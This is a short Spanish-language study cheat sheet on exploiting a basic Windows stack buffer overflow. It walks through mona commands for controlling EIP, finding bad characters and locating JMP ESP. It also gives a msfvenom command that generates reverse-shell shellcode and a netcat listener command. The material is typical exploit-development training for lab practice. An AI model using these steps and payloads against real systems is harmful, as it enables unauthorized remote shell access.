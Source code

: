 # Estructura básica del BoF en Windows
---
_Esta es una estructura básica de los pasos a seguir en Windows a la hora de explotar un Buffer Overflow básico y de los antiguos._

1. Crear un padding muy grande y ver si hay buffer overflow.
2. Tomar el control de EIP para ello:
 - !mona pattern_create 1000 (immunity) - mona.mona ("pattern_create 1000") (x32dbg)
 - Ver EIP y ver que elementos tiene.
 - Hacer una resta a mano comparando donde empieza y donde acaba // utilizar mona:
   - !mona pattern_offset xxxxxx - mona.mona ("patern offset xxxx")
3. Una vez tenemos el control de EIP, sacaremos los badchars. (Para que se guarde en logs: "!mona config -set workingfolder c:\logs\%p").
 - !mona bytearray -cpb "\x00" --> copiamos y pegamos en el script
 - Ejecutamos de nuevo el programa.
 - Lo vemos manualmente: Seccion de Hexdump --> Go to --> ESP --> Vemos cuando se rompe la cadena de bytearray
 - Con mona: "!mona compare -f C:\logs...bytearray.bin -a ADDRESS" --> Nos indica los badchars
 - Volvemos a generar el bytearray eliminando los badchars y volvemos a empezar hasta que no quede ninguna.
4. Buscaremos en el programa un JMP ESP que no tenga ASLR.
 - !mona jmp -r esp (immunity) - mona.mona ("jmp -r esp") (x32dbg)
 - Comprobamos que la direccion que seleccionamos no contiene badchars.
 - La colocamos en la direccion de retorno, que es EIP, el cual hemos controlado anteriormente.
5. Generar o buscar una shellcode/reverse shellcode.
````
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.x.x LPORT=4444 EXITFUNC=thread -b '\x00\x0a\x09\x1a' -a x86 --platform Windows -f python -v shellcode_reverse_shell
--smallest
````
6. Nos ponemos a la escucha:
````
 nc -lvnp 4444 // use exploit/multi/handler
````
7. Ejecutamos y... **FIN**
